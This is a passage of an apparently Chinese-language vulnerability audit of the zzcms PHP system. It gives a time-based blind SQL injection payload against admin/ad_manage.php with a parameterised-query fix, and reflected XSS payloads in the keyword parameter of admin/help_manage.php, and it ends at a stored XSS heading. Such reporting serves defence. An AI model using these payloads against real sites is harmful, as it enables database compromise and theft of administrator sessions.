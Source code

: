 ```
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 67

b=1' AND (SELECT 8334 FROM (SELECT(SLEEP(2)))EDuJ) AND 'tWHb'='tWHb

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OMTnCvx3T1KXhnqibBY5ZTmZr6uOnaAibFSLxBSrdyy7Wz3PZ9JBbpdhG0tn0PB0mrbmqIkc9kNHyTq3EVNv2IMg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OMTnCvx3T1KXhnqibBY5ZTmZr6uOnaAibFH6yQMEFibd5f6lynxbvFXMOJNCWic6IzMVGlvuicvkCXasAAgvmMt4HXg/640?wx_fmt=png&from=appmsg "")  
  
**攻击载荷**  
：  
```
POST /zzcms/admin/ad_manage.php HTTP/1.1
Content-Length: 67
b=1' AND (SELECT 8334 FROM (SELECT(SLEEP(2)))EDuJ) AND 'tWHb'='tWHb

```  
  
**防御建议**  
：  
```
// 参数化查询示例
$stmt = $pdo->prepare("SELECT * FROM ads WHERE id=?");
$stmt->execute([$b]);

```  
### （二）XSS漏洞  
#### 1. 反射型XSS（中危）  
  
**位置**  
：/admin/help_manage.php  
 第31行**触发点**  
：直接输出keyword  
参数  
这套系统XSS很多，找一个构造下 代码位置：/admin/help_manage.php 31行，直接将接收的参数写入前端页面![](https://mmbiz.qpic.cn/sz_mmbiz_png/OMTnCvx3T1KXhnqibBY5ZTmZr6uOnaAibF6UfVBRowLWHEwFTg0R6Jw3t3grcfAGfC8kQdTkKvIbibGenMQsvkNVw/640?wx_fmt=png&from=appmsg "")  
**攻击载荷**  
：  
```
/admin/help_manage.php?keyword="><script>alert(/xss/)</script>

```  
  
/admin/help_manage.php?keyword="><input%20onfocus="alert(/xss/)  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OMTnCvx3T1KXhnqibBY5ZTmZr6uOnaAibFcib10Q1CKV4gzK9yqafhQiaFdEZ8nmvAX8s1qCI2OdF2IpiarUPtv5kPQ/640?wx_fmt=png&from=appmsg "")  
  
  
**危害**  
：可窃取管理员Cookie、劫持会话  
#### 2. 存储型XSS（高危）  
  